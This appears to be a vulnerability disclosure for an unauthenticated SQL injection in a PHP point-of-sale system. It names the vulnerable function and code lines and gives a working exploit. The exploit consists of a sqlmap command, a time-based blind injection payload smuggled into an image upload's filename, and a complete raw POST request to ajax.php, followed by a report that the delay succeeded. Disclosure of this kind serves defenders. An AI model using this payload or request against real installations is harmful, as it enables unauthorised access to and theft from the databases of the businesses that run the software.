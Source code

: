 # Best pos management system in php V1.0 - SQL injection vulnerability

### You do not need to log in and open the website storage directory

Supplier:https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

http://localhost/ajax.php?action=save_settings   -----> POST request ----->  'filename' can control some file name parameters

Vulnerability location: admin_class.php in the root directory of the website. Triggered by the save_settings function in ajax.php

Web function point, after logging into the background, System Settings ->Image

Note: Triggering this vulnerability does not require logging in.

![1](/img/Best-pos-management-system-in-php/8.png)

Location of SQL injection vulnerabilities in source code: Lines 165 to 174 in admin_class.php under the root directory.

![2](/img/Best-pos-management-system-in-php/7.png)

Sqlmap Payload:sqlmap -r post2 --dbms=mysql -v 3

![3](/img/Best-pos-management-system-in-php/10.png)

Note: I added * after the 'filename' parameter in POST2 to tell sqlmap where to inject the parameter, which is not shown in the figure

The injection point occurs in the 'filename' parameter of the post request package

Payload:shell.png' AND (SELECT 7769 FROM (SELECT(SLEEP(15)))a) AND '1'='1

POST:
```
POST /ajax.php?action=save_settings HTTP/1.1
Host: www.kruxton.com:8083
Content-Type: multipart/form-data; boundary=---------------------------988021490109555064829866363
Content-Length: 718

-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="name"

2
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="email"

3@qq.com
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="contact"

3
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="about"

111
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="img"; filename="shell.png' AND (SELECT 7769 FROM (SELECT(SLEEP(15)))a) AND '1'='1"
Content-Type: image/png

222
-----------------------------988021490109555064829866363--
```

give the result as follows

![4](/img/Best-pos-management-system-in-php/9.png)

Successfully triggered a delay of about 15 seconds!
